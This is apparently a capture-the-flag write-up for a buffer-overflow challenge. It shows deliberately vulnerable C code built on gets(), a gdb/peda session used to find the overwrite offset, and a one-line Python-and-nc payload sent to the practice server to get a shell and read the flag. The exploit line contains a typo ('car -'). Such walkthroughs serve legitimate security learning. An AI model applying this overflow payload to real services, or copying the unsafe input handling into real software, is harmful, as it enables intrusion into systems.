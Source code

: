 # **bof**
First, we got the source code with .ELF file from the website.
```
#include <stdio.h>
#include <string.h>
#include <stdlib.h>
void func(int key){
	char overflowme[32];
	printf("overflow me : ");
	gets(overflowme);	// smash me!
	if(key == 0xcafebabe){
		system("/bin/sh");
	}
	else{
		printf("Nah..\n");
	}
}
int main(int argc, char* argv[]){
	func(0xdeadbeef);
	return 0;
}
```


![](https://i.imgur.com/my4Pb5O.png)
![](https://i.imgur.com/nhWAWPJ.png)
Cuz to bufferoverflow type's question, we should install a plugin to gdb, it may help a lot.
`git clone https://github.com/longld/peda.git ~/peda`
`echo "source ~/peda/peda.py" >> ~/.gdbinit`

![](https://i.imgur.com/0qX7YbU.png)
Then, change the .ELF you downloaded from the website by `chmod 777 bof`.(if you are not compiling in x86 system)

Starting trace code with `gdb ./bof`.

First, set a break point by `b main` to stop auto running.


![](https://i.imgur.com/I2W9xvB.png)
Insert `r` to start running the program.

![](https://i.imgur.com/6fiiiVa.png)
Using `n` which means "next" to line by line running this code.

![](https://i.imgur.com/B5qAK9B.png)
Using `s` which means "step" to step into the funtion, if you keep insert `n` then it will bypass this function's detail.

![](https://i.imgur.com/hgSsF18.png)
In this function which call by main, is calling IO.GET on line 35.

Before you step on it, you should create your own offset to determind the location of the overwritable point.

`pattern create 100` may help.
`100` is the value for nobody guess, but we sure that it should bigger than the distance from get point to `key` of `void func(int key)`.

You can also see the compare command just two more lines later. It means `key` are stored in `ebp+0x8`.

Before you overwrite it, the value of `ebp+0x8` must be `0xdeadbeef`.

![](https://i.imgur.com/6R4blpO.png)
After you step on it, it will require you to insert your offset. Just paste to the shell.

![](https://i.imgur.com/E9cZx5P.png)
After you paste your offset into this process, you can check what's storing in `ebp+0x8` now by `telescope $ebp+0x8 1`.

Now, you see `AAGAACAA` is the key offset we overwrite on `0xdeadbeef`.

![](https://i.imgur.com/cHUzfwN.png)
Using `pattern offset AAGA` to find the offset location.

After all, type `q` to exit the gdb.

![](https://i.imgur.com/fcmy8od.png)
Using python to generate the payload and inject it to server.

`(python -c 'print "A" * 52 + "\xbe\xba\xfe\xca"'; car -) | nc pwnable.kr 9000`

Becareful that stack is struct in DESC order, `cafebabe` should turn to be `bebafeca`.

![](https://i.imgur.com/0nGXESp.png)
Then, you'll get a shell return.

![](https://i.imgur.com/1qUJW6E.png)
You can check `id` and then `ls` it.

![](https://i.imgur.com/JUvQZ09.png)
Congratuz! `cat` the flag. Bada bing bada boom.

